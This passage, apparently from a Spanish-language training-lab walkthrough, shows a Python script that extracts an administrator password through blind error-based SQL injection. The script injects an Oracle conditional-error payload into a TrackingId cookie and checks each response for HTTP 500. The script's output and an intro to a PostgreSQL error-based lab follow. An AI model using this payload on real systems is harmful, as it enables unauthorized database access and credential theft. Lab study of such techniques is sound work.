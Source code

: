 ```python
        password = ""

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando ataque de fuerza bruta")

        time.sleep(2)

        p2 = log.progress("Password")

        for position in range(1, 21):   #Esto hace que pruebe hasta 20 caracteres
                for character in characters:

                        cookies = {
                                'TrackingId': "JcghQJrdTU2JxTFw'||(select case when substr(password,%d,1)='%s' then to_char(1/0) else '' end from users where username='administrator')||'" % (position, character),
                                'session': 'uIgDP6wFHLAewh2oBh1xLh2Zz9tv5WI3'
                        }

                        p1.status(cookies['TrackingId'])

                        r = requests.get(main_url, cookies=cookies)

                        if r.status_code == 500:        #Comparacion con el codifo de estado de la pagina
                                password += character
                                p2.status(password)
                                break

if __name__ == '__main__':

        makeRequest()
```

En este caso cambiaremos la comparacion de `Welcome back!` por `r.status_code == 500` para que haga la comparacion del codigo de respuesta y ya lo demas que se ajuste a nuestro `request`

```shell
python3 SQLI_Conditional_Error.py
```

Info:

```
[┌] Fuerza bruta: JcghQJrdTU2JxTFw'||(select case when substr(password,20,1)='9' then to_char(1/0) else '' end from users where username='administrator')||'
[O] Password: sbwt8m6hn5m9igp9cta9
```

Una vez hecho esto ya lo tendriamos, nos logeamos y listo...

### Lab: Visible error-based SQL injection

En esta practica hay que hacer algo parecido a lo anterior, en este caso tenemos que sacar la contraseña del `admin` con inyeccion de SQL en una base de datos manejada por `PostgreSQL` y dependiendo de los errores que te de sera una cosa u otra...
